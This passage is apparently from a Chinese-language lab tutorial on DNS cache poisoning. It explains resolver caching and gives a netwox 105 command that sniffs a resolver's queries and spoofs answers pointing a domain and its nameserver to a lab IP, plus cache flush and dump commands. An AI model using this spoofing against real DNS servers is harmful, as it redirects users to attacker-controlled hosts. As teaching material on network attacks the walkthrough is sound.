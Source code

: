 　　当一个 DNS 服务器接收到一个查询时，如果它可以解析则直接解析并响应，当主机名不在它的域中，它将要求其他的 DNS 服务器去解析主机名。当其他的 DNS 服务器将解析结果返回给该服务器后，它将把解析结果存储在缓存中，所以下一次不需要询问其他的 DNS 服务器。如果攻击者可以伪造来自其他 DNS 服务器的响应，那么该 DNS 服务器会接手伪造的 DNS 响应，并在一定时间内将欺骗响应保留在其缓存中。下一次，当用户的机器想要解析相同的主机名时，该 DNS 服务器会使用缓存中的欺骗性响应来回复。这样，攻击者只需要欺骗一次，并且影响将持续到缓存的信息到期。攻击示意图如下：

![11-6](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/11-6.png)

　　为避免我们要攻击的 DNS 服务器已经有缓存，攻击之前，我们要确保 DNS 服务器的缓存为空，可以使用以下命令刷新缓存：

```shell
$ sudo rndc flush
```

　　攻击者使用 Netwox 工具来监听来自 DNS 服务器机的数据包，然后生成一个假的 DNS 响应给我们的 DNS 服务器。Netwox 的命令如下：

```shell
sudo netwox 105 --hostname "www.fanzhenyu.me" --hostnameip 192.168.0.200 --authns "ns.fanzhenyu.me" --authnsip 192.168.0.200 --ttl 600 --filter "src host 192.168.0.10" --spoofip "raw"
```

![11-7](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/11-7.png)

　　然后，在用户机使用如下命令发起 DNS 查询请求：

```shell
$ nslookup www.fanzhenyu.me
```

　　攻击结果如下图，与没有攻击对比，缓存污染后 DNS 请求的响应已经是被污染的 IP 地址：

![11-8](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/11-8.png)

　　同时，可以使用如下命令转储和查看 DNS 服务器的缓存：

```shell
$ sudo rndc dumpdb -cache 
$ sudo cat /var/cache/bind/dump.db
```

　　结果如下图，可以看到缓存已被污染。

![11-9](http://fzy-blog.oss-cn-shenzhen.aliyuncs.com/2018/1/11-9.png)
